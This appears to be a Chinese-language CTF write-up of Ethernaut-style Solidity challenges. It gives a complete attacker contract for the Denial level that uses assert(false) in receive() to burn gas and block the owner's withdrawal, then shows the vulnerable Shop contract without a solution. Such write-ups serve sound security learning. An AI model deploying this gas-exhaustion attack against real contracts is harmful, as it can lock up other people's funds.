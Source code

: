这题的withdraw()函数分别向partner和owner转账1%，要做的是阻止owner转走

只要在partner的转帐中把gas耗尽，那么owner就无法转账。

在partner的receive函数中使用assert(false)，会depletes all gas

```js
pragma solidity ^0.6.0;

interface Denial {
    function setWithdrawPartner(address _partner) external ;
    // withdraw 1% to recipient and 1% to owner
    function withdraw() external ;
    // convenience function
    function contractBalance() external view returns (uint) ;
}

contract Attack {
    Denial instance;
    constructor(address _instance) public {
          instance = Denial(_instance);
    }
    function hack() public {
          instance.setWithdrawPartner(address(this));
          instance.withdraw();
    }
    receive() external payable{
        assert(false);
    }
}
```

或者重入攻击耗尽gas（未尝试，别的师傅的wp说没打出来）

## Shop

从商店以低于要求的价格购买商品

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```
